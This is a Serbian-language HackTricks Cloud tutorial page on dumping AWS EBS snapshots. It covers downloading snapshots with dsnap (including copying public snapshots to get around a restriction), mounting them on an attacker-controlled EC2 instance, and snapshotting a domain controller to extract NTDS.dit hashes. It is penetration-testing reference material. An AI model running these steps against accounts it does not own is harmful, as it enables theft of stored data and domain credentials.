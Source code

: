 # AWS - Dump snimka EBS

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

### Provera snimka lokalno
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
**Napomena** da dsnap neće vam dozvoliti da preuzmete javne snimke. Da biste zaobišli ovo, možete napraviti kopiju snimka u svom ličnom nalogu i preuzeti je:
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
Za više informacija o ovoj tehnici pogledajte originalna istraživanja na [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

To možete uraditi sa Pacu korišćenjem modula [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

### Provera snimka u AWS-u

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Montirajte ga u EC2 VM pod vašom kontrolom** (mora biti u istom regionu kao kopija rezervne kopije):

Korak 1: Kreirajte novi volumen željene veličine i tipa odlaskom na EC2 –> Volumes.

Da biste izvršili ovu radnju, pratite ove komande:
- Kreirajte EBS volumen koji ćete prikačiti na EC2 instancu.
- Proverite da li su EBS volumen i instanca u istoj zoni.

Korak 2: Izaberite opciju "attach volume" desnim klikom na kreirani volumen.

Korak 3: Izaberite instancu iz polja za tekst instance.

Da biste izvršili ovu radnju, koristite sledeću komandu:
- Prikačite EBS volumen.

Korak 4: Prijavite se na EC2 instancu i proverite dostupne diskove koristeći komandu `lsblk`.

Korak 5: Proverite da li volumen ima podatke koristeći komandu `sudo file -s /dev/xvdf`.

Ako izlaz gornje komande pokazuje "/dev/xvdf: data", to znači da je volumen prazan.

Korak 6: Formatirajte volumen u ext4 fajl sistem koristeći komandu `sudo mkfs -t ext4 /dev/xvdf`. Alternativno, možete koristiti xfs format koristeći komandu `sudo mkfs -t xfs /dev/xvdf`. Imajte na umu da treba koristiti ili ext4 ili xfs.

Korak 7: Kreirajte direktorijum po vašem izboru za montiranje novog ext4 volumena. Na primer, možete koristiti ime "newvolume".

Da biste izvršili ovu radnju, koristite komandu `sudo mkdir /newvolume`.

Korak 8: Montirajte volumen u direktorijum "newvolume" koristeći komandu `sudo mount /dev/xvdf /newvolume/`.

Korak 9: Promenite direktorijum u direktorijum "newvolume" i proverite prostor na disku da biste potvrdili montiranje volumena.

Da biste izvršili ovu radnju, koristite sledeće komande:
- Promenite direktorijum u `/newvolume`.
- Proverite prostor na disku koristeći komandu `df -h .`. Izlaz ove komande treba da pokaže slobodan prostor u direktorijumu "newvolume".

To možete uraditi sa Pacu korišćenjem modula `ebs__explore_snapshots`.

### Provera snimka u AWS (korišćenjem cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

### Shadow Copy

Bilo koji AWS korisnik koji poseduje dozvolu **`EC2:CreateSnapshot`** može ukrasti heševe svih korisnika domena kreiranjem **snapshot-a kontrolera domena**, montiranjem ga na instancu kojom upravljaju i **izvozeći NTDS.dit i SYSTEM** registarski fajl za korišćenje sa Impacket-ovim projektom secretsdump.

Možete koristiti ovaj alat da automatizujete napad: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) ili možete koristiti jednu od prethodnih tehnika nakon kreiranja snapshot-a.


# Reference
* https://devopscube.com/mount-ebs-volume-ec2-instance/

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
